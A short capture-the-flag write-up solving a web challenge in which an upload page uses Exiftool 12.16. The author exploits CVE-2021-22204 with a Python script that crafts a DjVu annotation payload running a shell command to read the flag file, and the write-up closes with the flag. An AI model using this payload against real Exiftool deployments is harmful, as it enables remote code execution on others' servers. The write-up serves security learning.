

## Shell


We are given a webpage that extracts and displays metadata from uploaded files.  

The output reveals that the backend uses `Exiftool 12.16` for the metadata extraction.  



This version of Exiftool actually has a [RCE CVE](https://nvd.nist.gov/vuln/detail/cve-2021-22204), where the Djvu file format can be abused to gain arbitrary code execution.  

We can follow [this article](https://ine.com/blog/exiftool-command-injection-cve-2021-22204-exploitation-and-prevention-strategies) to craft our payload.  

```python
import requests
import subprocess
import re

url = "http://chall.0xfun.org:5804/"

cmd = '''(metadata "\\c${system('cat ../flag.txt')};")'''

with open("payload.txt", 'w') as f:
    f.write(cmd)

subprocess.run(['djvumake', 'payload.jpg', 'INFO=1,1', 'BGjp=/dev/null', 'ANTa=payload.txt'], capture_output=True)
```

Uploading our generated payload file will then get the webpage to render the flag.  


Flag: `0xfun{h1dd3n_p4yl04d_1n_pl41n_51gh7}`